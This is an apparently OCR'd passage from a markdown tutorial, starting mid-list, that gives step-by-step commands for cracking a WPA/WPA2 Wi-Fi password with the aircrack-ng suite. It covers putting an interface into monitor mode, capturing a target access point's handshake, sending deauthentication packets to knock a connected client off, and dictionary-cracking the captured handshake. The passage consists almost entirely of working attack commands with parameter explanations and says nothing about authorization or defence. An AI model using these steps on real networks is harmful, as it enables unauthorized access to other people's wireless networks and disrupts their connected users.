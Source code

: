 3. **Start Monitor Mode**:
    - For mac80211 drivers:
        ```bash
        airmon-ng start wlan0 9
        ```
    - For madwifi-ng:
        ```bash
        airmon-ng start wifi0 9
        ```
    Ensure you replace the interface appropriately.

4. **Confirm Monitor Mode**:
    ```bash
    iwconfig
    ```
    Verify that your interface (e.g., `mon0` for mac80211 or `ath0` for madwifi-ng) is in monitor mode.

#### Step 2: Capture the WPA/WPA2 Authentication Handshake

1. **Start Airodump-ng**:
    ```bash
    airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w psk mon0
    ```
    Parameters:
    - `-c 9`: Channel number of the target AP.
    - `--bssid 00:14:6C:7E:40:80`: BSSID MAC address of the target AP.
    - `-w psk`: Prefix for the capture file name.
    - `mon0`: Interface in monitor mode.

    Look for `WPA handshake: 00:14:6C:7E:40:80` in the output, indicating a successful handshake capture.

#### Step 3: Deauthenticate Wireless Clients (Optional, Speeds Up Handshake Capture)
Ensure there is an already connected client. Skip this step to wait passively for a client connection.

1. **Deauthenticate the Client**:
    ```bash
    aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:FD:FB:C2 mon0
    ```
    Parameters:
    - `-0 1`: Deauth attack, deauth packet count.
    - `-a 00:14:6C:7E:40:80`: BSSID of the target AP.
    - `-c 00:0F:B5:FD:FB:C2`: MAC address of the target client.
    - `mon0`: Interface in monitor mode.

Verify that this causes clients to reauthenticate, generating the WPA handshake, observed in `airodump-ng`.

#### Step 4: Crack the Pre-Shared Key
Use `aircrack-ng` with a suitable dictionary to attempt cracking the captured handshake.

1. **Run Aircrack-ng**:
    ```bash
    aircrack-ng -w password.lst -b 00:14:6C:7E:40:80 psk*.cap
    ```
    Parameters:
    - `-w password.lst`: Dictionary file path.
    - `-b 00:14:6C:7E:40:80`: BSSID of the target AP.
    - `psk*.cap`: The capture files with the handshake.
